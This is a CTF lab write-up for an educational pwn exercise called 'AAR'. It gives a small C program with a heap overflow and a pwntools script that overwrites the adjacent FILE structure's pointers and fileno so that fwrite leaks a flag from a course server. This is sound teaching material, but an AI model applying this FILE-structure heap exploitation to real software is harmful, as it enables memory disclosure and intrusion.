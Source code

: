 ```yaml
---
title: Simple PWN 0x22(Lab - `AAR`)
tags: [CTF, PWN, eductf]

---
```


# Simple PWN 0x22(Lab - `AAR`)
###### tags: `CTF` `PWN` `eductf`

Version: Ubuntu 20.04

## Original Code
:::spoiler Original Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

char flag[0x10] = "FLAG{TEST}\n";

int main()
{
    FILE *fp;
    char *buf;

    buf = malloc(0x10);
    fp = fopen("/tmp/meow", "w");
    read(0, buf, 0x1000);
    fwrite(buf, 0x10, 1, fp);
    return 0;
}
```
:::

## Exploit - heap overflow + overlap flag
```python=
from pwn import *

# r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10010)

context.arch = 'amd64'

flag_addr = 0x404050

raw_input()
payload = flat(
    p64(0)*4,
    p64(0xfbad0800),        #_flags
    p64(0),                 #_IO_read_ptr
    p64(flag_addr),         #_IO_read_end
    p64(0),                 #_IO_read_base
    p64(flag_addr),         #_IO_write_base
    p64(flag_addr+0x10),    #_IO_write_ptr
    p64(0)*8,               #_IO_write_end + _IO_buf_base + _IO_buf_end + _chain
    p64(0x1)                #_fileno
)

r.send(payload)

r.interactive()
```
